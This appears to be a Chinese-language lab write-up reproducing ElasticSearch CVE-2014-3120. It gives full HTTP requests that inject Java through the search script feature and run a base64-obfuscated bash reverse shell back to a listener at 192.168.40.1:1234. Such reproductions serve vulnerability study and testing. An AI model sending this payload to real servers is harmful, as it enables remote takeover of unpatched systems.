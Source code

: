 # ElasticSearch 命令执行漏洞（CVE-2014-3120）

> 漏洞说明

Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

ElasticSearch有脚本运行的功能，能够非常方便地对查询出来的数据再加工处理。  ElasticSearch用的脚本引擎是MVEL，这个引擎没有做什么的防护，所以直接能够运行随意代码。  而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户能够直接通过http请求，运行随意代码。



> 前提条件



> 利用工具



> 漏洞复现

访问http://192.168.40.77:9200/可以看到es成功启动

![image-20230103003638870](../img/ElasticSearch_CVE-2014-3120/image-20230103003638870.png)

构造请求数据包添加一条数据

```http
POST http://192.168.40.77:9200/website/blog/ HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
 "name": "tomato"
}

```

返回201，添加成功

![image-20230103003701234](../img/ElasticSearch_CVE-2014-3120/image-20230103003701234.png)

验证命令执行

![image-20230103003745978](../img/ElasticSearch_CVE-2014-3120/image-20230103003745978.png)

开启本地监听

![image-20230103003811103](../img/ElasticSearch_CVE-2014-3120/image-20230103003811103.png)

将执行命令换成反弹shell语句

```http
POST http://192.168.40.77:9200/_search?pretty HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 449

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}

```

发送数据包

![image-20230103003843504](../img/ElasticSearch_CVE-2014-3120/image-20230103003843504.png)

成功反弹shell

![image-20230103003834284](../img/ElasticSearch_CVE-2014-3120/image-20230103003834284.png)